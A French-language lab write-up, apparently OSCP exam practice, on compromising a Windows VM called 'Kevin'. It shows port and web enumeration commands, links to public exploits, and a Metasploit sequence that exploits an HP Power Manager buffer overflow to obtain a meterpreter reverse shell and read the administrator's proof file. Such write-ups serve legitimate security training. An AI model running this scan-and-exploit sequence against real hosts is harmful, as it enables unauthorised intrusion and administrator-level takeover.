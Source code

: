  # Kevin

	sudo masscan -p1-65535,U:1-65535 192.168.198.45 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 192.168.198.45 -oN nmap.txt
	feroxbuster --silent -u http://192.168.198.45
	
Scans classiques.

	PORT STATE SERVICE VERSION  
	80/tcp open http GoAhead WebServer  
	135/tcp open msrpc Microsoft Windows RPC  
	139/tcp open netbios-ssn Microsoft Windows netbios-ssn  
	445/tcp open microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)  
	3389/tcp open ssl/ms-wbt-server?  
	3573/tcp open tag-ups-1?  
	49152/tcp open msrpc Microsoft Windows RPC  
	49153/tcp open msrpc Microsoft Windows RPC  
	49154/tcp open msrpc Microsoft Windows RPC  
	49155/tcp open msrpc Microsoft Windows RPC  
	49158/tcp open msrpc Microsoft Windows RPC  
	49159/tcp open msrpc Microsoft Windows RPC
  


La description de la VM indique "Effective enumeration will save you time." alors j'ai complété mes scans en élargissant un peu l'énumération : 

	nikto -h http://192.168.198.45
	feroxbuster --silent -u http://192.168.198.45 -w ~/wordlists/raft-large-directories.txt
	enum4linux -a 192.168.198.45
	nmap -A -p80,135,139,445,3389,3573 192.168.198.45

Rien de spécial mais en parallèle j'ai trouvé plusieurs exploits qui pourraient correspondre à cette VM : 

- RCE sur des serveurs web GoAhead : https://github.com/fssecur3/goahead-rce-exploit/blob/main/exploit.py
- Buffer Overflow sur HP Power Manager Administration : https://www.exploit-db.com/exploits/10099

Le premier était un rabbit hole, mais j'ai trouvé le deuxième sur Metasploit. J'ai décidé de passer par Metasploit parce que je ne suis pas du tout au point sur ce type d'attaque, et que si un buffer overflow tombait pour mon examen OSCP je sauterais la VM ou utiliserais directement la cartouche unique Metasploit dessus : 

	msfconsole
	msf6 > search HP Power Manager
	msf6 > use 0
	msf6 exploit(windows/http/hp_power_manager_filename) > show options
	msf6 exploit(windows/http/hp_power_manager_filename) > set LHOST 192.168.45.236
	msf6 exploit(windows/http/hp_power_manager_filename) > set RHOSTS 192.168.198.45
	msf6 exploit(windows/http/hp_power_manager_filename) > run
	...
	meterpreter > shell
	whoami
	type C:\Users\Administrator\Desktop\proof.txt
